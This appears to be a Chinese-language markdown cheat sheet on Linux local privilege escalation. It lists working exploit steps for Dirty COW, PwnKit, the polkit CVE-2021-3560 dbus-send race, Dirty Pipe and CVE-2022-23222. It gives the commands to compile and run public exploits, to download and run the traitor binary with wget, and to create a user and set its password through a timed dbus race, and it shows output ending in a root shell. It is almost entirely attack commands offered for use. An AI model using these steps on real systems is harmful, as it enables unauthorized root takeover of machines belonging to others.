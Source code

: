 ##### Linux脏牛提权
	https://github.com/FireFart/dirtycow
	$gcc -pthread dirty.c -o dirty –lcrypt
	$./dirty passwd 
	生成账户密码
	https://github.com/gbonacini/CVE-2016-5195
	$make
	$./dcow -s
##### CVE-2021-4034
	https://github.com/berdav/CVE-2021-4034
	只需执行make，./cve-2021-4034然后get root shell
##### CVE-2021-3560
  	检查执行命令所需时间
	>time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:ignite string:"ignite user" int32:1
	提前结束(多运行几次)
	>dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:ignite string:"ignite user" int32:1 & sleep 0.0035s ; kill $!
	生成密码
	>openssl passwd -5 ignite@123
	执行(多运行几次)
	>dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1001 org.freedesktop.Accounts.User.SetPassword string:'$5$F2KwiUlWkn2i8DC.$rw9AOjKsmK83DhncqehVUzOKVqq.ArwS2G8eQKVntv7' string:BestHackingTutorials & sleep 0.0035s ; kill $!
	>su ignite
	>password: ignite@123
	>whoami
	>id
	>sudo bash获取root
##### CVE-2022-0847
  	>wget https://github.com/liamg/traitor/releases/download/v0.0.14/traitor-amd64
	>./traitor-amd64 --exploit kernel:CVE-2022-0847
	>whoami
	>id
	或
	>git clone https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit.git
	>cd CVE-2022-0847-DirtyPipe-Exploit
	>./compile.sh
	>./exploit
##### CVE-2022-23222
  	https://github.com/tr3ee/CVE-2022-23222
```bash
$ make
cc -I include -static -w -o exploit exploit.c
$ ./exploit 
[*] phase(1/8) 'create bpf map(s)' running
[+] phase(1/8) 'create bpf map(s)' done
[*] phase(2/8) 'do some leak' running
[+] phase(2/8) 'do some leak' done
[*] phase(3/8) 'prepare arbitrary rw' running
[+] phase(3/8) 'prepare arbitrary rw' done
[*] phase(4/8) 'spawn processes' running
[+] phase(4/8) 'spawn processes' done
[*] phase(5/8) 'find cred (slow)' running
[+] phase(5/8) 'find cred (slow)' done
[*] phase(6/8) 'overwrite cred' running
[+] phase(6/8) 'overwrite cred' done
[*] phase(7/8) 'spawn root shell' running
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=65534(nobody)
# exit
[+] phase(7/8) 'spawn root shell' done
[*] phase(8/8) 'clean up the mess' running
[+] phase(8/8) 'clean up the mess' done
```